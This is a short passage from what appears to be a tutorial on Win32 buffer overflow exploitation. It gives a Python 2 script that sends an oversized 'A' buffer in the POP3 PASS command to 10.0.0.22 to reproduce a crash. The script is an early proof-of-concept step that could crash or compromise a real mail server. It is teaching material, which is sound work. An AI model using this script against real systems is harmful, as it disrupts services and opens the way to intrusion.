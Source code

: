 # Win32 Buffer Overflow Exploitation

### Replicating the Crash

  - Our first task in the exploitation process is to write a simple script that will replicate our observed crash, without having to run the fuzzer each time.

  ```python
  #!/usr/bin/python
  import socket s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  buffer = 'A' * 2700
  try:
    print "\nSending evil buffer..."
    s.connect(('10.0.0.22',110))
    data = s.recv(1024)
    s.send('USER username' +'\r\n')
    data = s.recv(1024)
    s.send('PASS ' + buffer + '\r\n')
    print "\nDone!."
  except:
    print "Could not connect to POP3!"
  ```
  ```